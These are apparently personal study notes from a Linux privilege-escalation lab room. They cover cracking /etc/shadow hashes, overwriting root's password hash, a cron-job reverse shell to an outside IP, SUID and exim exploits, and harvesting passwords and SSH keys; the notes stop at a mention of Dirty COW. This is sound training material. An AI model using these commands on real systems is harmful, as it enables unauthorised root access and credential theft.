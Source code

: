 
##### _Linux PrivEsc Room_
- run the LinEnum.sh script and we see that `MYSQL Service` is running as root and we can login as root into mysql without a password
- it is a [popular exploit](https://www.exploit-db.com/exploits/1518) 
![[Pasted image 20240116102745.png]]  

- Readable /etc/shadow - we can read the hashes of `root` and `user` and we use `hashid` on hash.txt and find out what hash it is and try to crack it using `John` 
>`echo"$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0" > hash.txt`
>`hashid hash.txt` - this tells us that it is SHA512 Crypt
>`john --wordlist=rockyou.txt hash.txt` - cracked password is `password123` 

- Insert and create a new password hash and replace it with the existing root hash and then login as `sudo su` with new created password
> `mkpasswd -m SHA-512 helloworld` - here _helloworld_ is the password
> but while replacing remember to append the already existing parameters in hash `root:$6$qZ4oaFSLh1.ovG/U$1RRGcAnSk2YAfu5ibBMYPv.jUboKF3cu06RlYV19PGlsaGbHS.ZJT6JDBpxxGo.5Rs3fp22yfctycoVArnGHt.:17298:0:99999:7:::` - where `:17298:0:99999:7:::` is default  (hash for _helloworld_)

- writable /etc/passwd - do `openssl passwd [newpassword]` and whatever hash we get, write it to the /etc/passwd file to root by replacing 'x' and now do `su` and enter password and we get root shell
- Cron Jobs - File Permissions --> `cat /etc/crontab` and we see `overwrite.sh` being run every minute so we overwrite the contents of it and replace it by 
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.17.94.67/4444 0>&1
```
now set up `nc -lvnp 4444` on attacking machine and listen for the root shell which will be obtained in a minute after the cronjob is executed.\

###### _SUID/SGID Executables_
- to find all SUID/SGID executables on the debian VM
> `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` - this shows us all the SUID/GUID executables and we see `/usr/sbin/exim-4.84-3` appears in the results.
> `/home/user/tools/suid/exim/cve-2016-1531.sh` - running this gives us the root access

###### _Passwords and Keys_
- if user accidentally types his password on commandline instead of into password prompt, it may get recorded onto a history file which we can access by `cat ~/.*history | less` and here user has logged into his `mysql` and revealed password
- sometimes plaintext passwords can also be found in config files, so in `cat /home/user/myvpn.ovpn` , we can see root user credentials in `/etc/openvpn/auth.txt` 
- sometimes hidden files and keys, we can find `ssh root keys` so make sure to do `ls -la /`, there appears to be a hidden directory `.ssh` , now copy over the private key & save it in a file, give it permissions by `chmod 600 [filename]` and then do `ssh -i root-key root@[IP]` and we get access

###### _Kernel Exploits_
- This is the last resort to get a root shell, if everything else doesnt work, there are several famous exploits and we are going to use the `dirty cow exploit`
